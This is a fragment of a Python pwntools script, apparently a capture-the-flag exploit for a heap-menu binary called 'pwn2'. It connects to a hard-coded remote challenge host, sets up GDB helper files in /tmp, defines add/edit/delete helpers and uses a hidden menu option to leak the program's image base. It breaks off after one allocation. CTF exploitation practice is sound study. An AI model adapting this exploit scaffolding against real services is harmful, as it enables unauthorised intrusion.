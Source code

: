 ~~~python
# try:
#     gdb_symbols = '''
    
#     '''

#     f = open('/tmp/gdb_symbols{}.c'.replace('{}', salt), 'w')
#     f.write(gdb_symbols)
#     f.close()
#     os.system('gcc -g -shared /tmp/gdb_symbols{}.c -o /tmp/gdb_symbols{}.so'.replace('{}', salt))
#     # os.system('gcc -g -m32 -shared /tmp/gdb_symbols{}.c -o /tmp/gdb_symbols{}.so'.replace('{}', salt))
# except Exception as e:
#     print(e)

context.arch = 'amd64'
# context.arch = 'i386'
context.log_level = 'debug'
execve_file = './pwn2'
# sh = process(execve_file, env={'LD_PRELOAD': '/tmp/gdb_symbols{}.so'.replace('{}', salt)})
# sh = process(execve_file)
sh = remote('47.108.30.122', 40180)
elf = ELF(execve_file)
# libc = ELF('./libc-2.27.so')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

# Create temporary files for GDB debugging
try:
    gdbscript = '''
    def pr
        x/8gx $rebase(0x202040)
        end
    '''

    f = open('/tmp/gdb_pid{}'.replace('{}', salt), 'w')
    f.write(str(proc.pidof(sh)[0]))
    f.close()

    f = open('/tmp/gdb_script{}'.replace('{}', salt), 'w')
    f.write(gdbscript)
    f.close()
except Exception as e:
    pass

def add(size, content):
    sh.sendlineafter('4.exit\n', '1')
    sh.sendlineafter('Length:\n', str(size))
    sh.sendafter('Content:\n', content)
    sh.recvuntil('Content is:\n')
    return sh.recvuntil('\nOK\n', drop=True)

def edit(content):
    sh.sendlineafter('4.exit\n', '3')
    sh.sendafter('Name:\n', content)

def delete(index):
    sh.sendlineafter('4.exit\n', '2')
    sh.sendlineafter('Id:\n', str(index))

sh.sendlineafter('4.exit\n', '666')
image_base = int(sh.recvline(), 16) - 0x202040
log.success('image_base: ' + hex(image_base))

add(0x118, '\n')
~~~